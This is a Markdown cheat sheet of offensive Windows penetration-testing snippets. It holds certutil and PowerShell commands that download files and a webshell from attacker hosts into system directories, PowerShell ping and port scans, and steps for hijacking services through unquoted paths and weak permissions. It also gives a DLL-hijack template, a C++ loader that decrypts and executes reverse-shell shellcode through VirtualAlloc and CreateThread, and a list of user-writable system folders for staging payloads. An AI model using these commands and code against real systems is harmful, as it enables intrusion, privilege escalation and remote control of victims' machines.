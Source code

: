   # Windows Snippets

wget for Windows:
```
certutil.exe -urlcache -f http://172.16.1.100:8001/FILE.exe OUTFILE.exe
or
powershell "(New-Object System.Net.WebClient).DownloadFile('http://HOST:PORT/webshell.php', 'C:\Apache24\htdocs\SOME_DIR\BLEND_ING.php')"
or
powershell iwr -uri 'http://10.10.16.111/FILE.exe' -Outfile C:\\Windows\\Tasks\\FILE.exe
```

check for impersonate privs and other privs:
```
whoami /priv
```

Run `dir` recursively:
```
gci -recurse .
```

Get open/connected ports
```
netstat -aon
```

# Scans
Subnet ping scan (about 5 seconds per host)
```
1..20 | % {"10.10.123.$($_): $(Test-Connection -count 1 -comp 10.10.123.$($_) -quiet)"}
```
Port scan single host ([other port scans](https://medium.com/@nallamuthu/powershell-port-scan-bf27fc754585))
```
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.123.110",$_)) "Port $_ is open!"} 2>$null
```

# Exploiting Windows Services
Listing services for weak perms and unquoted service paths ([link](https://www.hackingarticles.in/windows-privilege-escalation-weak-services-permission/))
```
wmic service get name,startname,pathname
```
```
sc qc SERVICENAME # Check if BINARY_PATH_NAME calls an unquoted service path and see if is a priv esc opp
```
```
./accesschk /accepteula -uwdq "C:\DIR\FROM\ABOVE" # check write perms of a subdir of BINARY_PATH_NAME so we can commandeer the service call w our own executable
```
```
net start SERVICENAME # start the service after dropping our executable into the path
```

Kernel Priv Esc:
- save `systeminfo` output and run through the [Windows Exploit Suggester_new](https://github.com/bitsadmin/wesng)


# DLL Injections
- x86_64-w64-mingw32-gcc-win32

__hello_program.c__
```
#include <windows.h>
#include <stdio.h>

int main( void )
{
	HINSTANCE hDll;

	// Load a DLL
	hDll = LoadLibrary(TEXT("yoyo.dll"));

	// If DLL Was Loaded
	if (hDll != NULL){
		printf("DLL Found\n");
	} else {
		printf("DLL NOT FOUND!\n");
	}

	return 0;
}
```

__dll_template.c__
```
#include <windows.h>

BOOL WINAPI
DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
	switch (dwReason)
	{
		case DLL_PROCESS_ATTACH:
			MessageBox(
				Null, // Owner
				"Some Message Text",
				"The Title",
				MB_ICONERROR | MB_OK // TYPE
			);
		break;
	}
	return TRUE;
}
```

## Encrpyted Shellcode
__C++ Program__
```
#include <windows.h>
#include <stdio.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "user32.lib")

void DecryptAES(char* shellcode, DWORD shellcodeLen, char* key, DWORD keyLen) {
    HCRYPTPROV hProv;
    HCRYPTHASH hHash;
    HCRYPTKEY hKey;

    if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) {
        printf("Failed in CryptAcquireContextW (%u)\n", GetLastError());
        return;
    }
    if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)) {
        printf("Failed in CryptCreateHash (%u)\n", GetLastError());
        return;
    }
    if (!CryptHashData(hHash, (BYTE*)key, keyLen, 0)) {
        printf("Failed in CryptHashData (%u)\n", GetLastError());
        return;
    }
    if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)) {
        printf("Failed in CryptDeriveKey (%u)\n", GetLastError());
        return;
    }

    if (!CryptDecrypt(hKey, (HCRYPTHASH)NULL, 0, 0, (BYTE*)shellcode, &shellcodeLen)) {
        printf("Failed in CryptDecrypt (%u)\n", GetLastError());
        return;
    }

    CryptReleaseContext(hProv, 0);
    CryptDestroyHash(hHash);
    CryptDestroyKey(hKey);

}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
	switch (ul_reason_for_call) {
	case DLL_PROCESS_ATTACH:
	case DLL_PROCESS_DETACH:
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
		break;
	}
	return TRUE;
}

extern "C" {
__declspec(dllexport) BOOL WINAPI HelloWorld(void) {
	// CONTENT
		// use payload/windows/x64/shell_reverse_tcp
	// generate -f c 
	unsigned char payload[] =
		"";



	LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (!alloc_mem) {
		printf("Failed to Allocate memory (%u)\n", GetLastError());
		return -1;
	}
	
	MoveMemory(alloc_mem, payload, sizeof(payload));
	//RtlMoveMemory(alloc_mem, payload, sizeof(payload));


	DWORD oldProtect;

	if (!VirtualProtect(alloc_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldProtect)) {
		printf("Failed to change memory protection (%u)\n", GetLastError());
		return -2;
	}


	HANDLE tHandle = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)alloc_mem, NULL, 0, NULL);
	if (!tHandle) {
		printf("Failed to Create the thread (%u)\n", GetLastError());
		return -3;
	}

	printf("\n\nalloc_mem : %p\n", alloc_mem);
	WaitForSingleObject(tHandle, INFINITE);
	getchar();
	
	((void(*)())alloc_mem)();

	return 0;

	return TRUE;
}
}
```

## Tips
1. https://github.com/ankh2054/windows-pentest

__Dirs writable by default by normal users:__
```
C:\Windows\Tasks
C:\Windows\Temp
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```
